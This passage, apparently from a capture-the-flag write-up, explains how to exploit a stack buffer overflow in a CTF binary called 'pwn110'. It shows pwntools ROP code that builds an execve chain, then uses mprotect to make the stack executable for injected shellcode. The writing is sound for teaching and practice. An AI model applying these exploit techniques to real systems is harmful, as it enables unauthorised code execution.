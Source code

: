 ```python
# rdi = const char filename      (address of .data section)
# rsi = const char const argv[]  (address of .data section)
# rdx = const char *const envp[] (NULL)
payload += p64(0x3b)         # sys_execve
payload += p64(next(elf.search(asm('syscall; ret;'))))


process.sendline(payload)
process.clean()

process.interactive()
```

#### Method 2: make the stack executable

As we learned above, the stack is not executable (NX). We can use ROP to call the `mprotect()` syscall to make it executable.

I developed 2 exploits for this.

***Exploit 1***

The first exploit is more readable, and somewhat cleaner, but uses 2 iterations.

In the first iteration, we leak the address of the stack (which is still random). Then, we use that address to call `mprotect()` with the right parameters. Finally, we “return” to the shellcode we inject in the second iteration of the buffer overflow.

One practical way we have to get the stack address is to use `elf.symbols.__libc_stack_end`. Since libc functions have been statically linked to the binary, this is in the same address space of the stack used in `main()`, and it's likely to be the same memory page.

Note that the address passed to `mprotect()` (i.e., `mprotect_memory` on the following code) has to be page aligned. Since on most systems the page size is 4k, we calculate it from `elf.symbols.__libc_stack_end` by setting to zero the last 3 nibbles (because `4096d` == `1000b`). We need to store this value in `rdi`.

Finally, `mprotect()` takes in input a bitmap describing the desired stack protection (in `rdx`). For our case, we need to use `PROT_READ|PROT_EXEC|PROT_WRITE`.

```python
#!/usr/bin/env python3
#
# Exploit: Buffer overflow ROP on non-PIE statically-linked binary,
# using mprotect() syscall to make the stack executable and inject a shellcode
# in the stack.
#
# This exploit does two iterations: the first one leaks the address of
# __libc_stack_end, the second calls mprotect() syscall with right parameters.


from pwn import *

context.update(arch="amd64", os="linux")

elf = ELF("./pwn110.pwn110")
process = process("./pwn110.pwn110")
# process = remote("xxx", 9009)


# Smash the stack
payload = b'A' * 40

# First iteration, leak the address of libc_stack_end
payload += p64(next(elf.search(asm('pop rdi; ret;'))))
payload += p64(elf.symbols.__libc_stack_end)
payload += p64(elf.symbols.puts)
```
